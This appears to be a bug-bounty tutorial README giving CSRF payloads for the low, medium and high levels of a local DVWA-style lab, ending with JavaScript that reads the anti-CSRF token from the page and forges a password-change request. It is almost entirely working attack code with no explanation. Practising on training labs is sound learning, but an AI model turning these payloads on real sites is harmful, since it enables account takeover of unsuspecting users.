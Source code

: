 # bug-bounty-tutorial
bug bounty tutorial

## 8.CSRF-Advanced

### low
```
http://127.0.0.1:42001/vulnerabilities/csrf/?password_new=123456&password_conf=123456&Change=Change#
```

### medium
```
const HttpRequest = new XMLHttpRequest();
const url ="http://127.0.0.1:42001/vulnerabilities/csrf/?password_new=password&password_conf=password&Change=Change#";
HttpRequest.open("GET", url);
HttpRequest.send();
```

### high
```
const user_token=document.getElementsByName("user_token")[0].value;
var payload ="http://127.0.0.1:42001/vulnerabilities/csrf/?password_new=password&password_conf=password&Change=Change&user_token="+user_token;
var second_request = new XMLHttpRequest();
second_request.open("GET", payload);
second_request.send()

```
